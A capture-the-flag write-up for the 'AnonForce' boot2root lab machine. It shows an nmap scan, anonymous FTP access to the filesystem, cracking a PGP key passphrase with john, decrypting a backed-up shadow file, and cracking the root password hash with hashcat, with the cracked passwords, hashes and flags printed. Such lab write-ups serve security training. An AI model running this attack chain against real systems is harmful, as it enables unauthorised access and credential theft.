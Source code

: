 > AnonForce | Boot2Root

**export IP=10.10.62.66**

# Nmap

nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Sep 12 06:49 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x  102 0        0               0 Sep 12 06:49 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Sep 12 06:49 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Sep 12 06:49 sys
| drwxrwxrwt    9 0        0            4096 Sep 12 06:49 tmp [NSE: writeable]
| drwxr-xr-x   10 0        0            4096 Aug 11  2019 usr
| drwxr-xr-x   11 0        0            4096 Aug 11  2019 var
| lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
|_lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz.old -> boot/v
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

# FTP anonymous login

In /home/meloidas we get `user.txt`

===========================
606083fd33beb1284fc51f411a706af8
===========================

We found 2 files in `notread` directory `backup.pgp` & `private.asc`

## Cracking .asc file

/snap/bin/john-the-ripper.gpg2john private.asc > private_hash

john private_hash

```
xbox360          (anonforce)
```

gpg --import private.asc
gpg --decrypt backup.pgp

```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::
```

# Cracking hashes using hashcat

sudo hashcat -m 1800 root_hash /snap/john-the-ripper/rockyou.txt --force

```
$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
```

# SSH as root

root.txt

=====================================
f706456440c7af4187810c31c6cebdce
=====================================
